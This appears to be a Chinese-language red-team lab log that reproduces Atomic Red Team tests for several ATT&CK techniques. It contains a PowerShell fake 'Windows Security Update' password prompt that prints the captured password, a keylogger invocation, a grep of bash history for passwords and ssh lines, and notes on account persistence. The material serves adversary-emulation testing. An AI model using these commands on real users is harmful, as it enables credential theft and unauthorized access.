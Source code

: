 ###### 测试1 Packet Capture Linux
```
tcpdump -c 5 -nnni #{interface}
tshark -c 5 -i #{interface}
```
成功复现
###### 测试2 Packet Capture Windows Command Prompt
```
tcpdump -c 5 -nnni #{interface}
tshark -c 5 -i #{interface}
```
成功复现
### T1141 - Input Prompt
当程序被运行后需要额外的权限的时候,系统会向用户索要额外的权限凭证.红队可模仿这个方法,向用户索要额外的权限凭证.并记录下来
###### 测试1 PowerShell - Prompt User for Password
在powershell中运行
```
# Creates GUI to prompt for password. Expect long pause before prompt is available.    
$cred = $host.UI.PromptForCredential('Windows Security Update', '',[Environment]::UserName, [Environment]::UserDomainName)
# Using write-warning to allow message to show on console as echo and other similar commands are not visable from the Invoke-AtomicTest framework.
write-warning $cred.GetNetworkCredential().Password
```
ps:效果相当好啊!!!

win10成功复现
### T1056 - Input Capture
Keylogging 是最常用的input caputure手段
###### 测试1 Input Capture
```
set-ExecutionPolicy RemoteSigned
.\T1056\src\Get-Keystrokes.ps1 -LogPath #{filepath}
```
没有成功,回家再试一下
### T1139 - Bash History
红队可以从`~/.bash_history`找一些敏感信息
###### 测试1 Search Through Bash History
```
cat #{bash_history_filename} | grep #{bash_history_grep_args}
例如
cat ~/.bash_history | grep -e '-p ' -e 'pass' -e 'ssh'
```
成功复现
### T1098 - Account Manipulation
帐户操作可以帮助对手维护对环境中的凭据和特定权限级别的访问。修改包括修改凭证,修改权限,添加组,修改账户设置或者修改验证方式.为了修改账户,红队必须首先获得这个操作系统的权限.

对于Exchange Email Account Takeover:允许在本地 Exchange 和基于云的服务中可用,其中Exchange Server 是微软公司的一套电子邮件服务组件，是个消息与协作系统。 简单而言，Exchange server可以被用来构架应用于企业、学校的邮件系统。

对于Azure AD:红队可以设置第二个密码来persistence
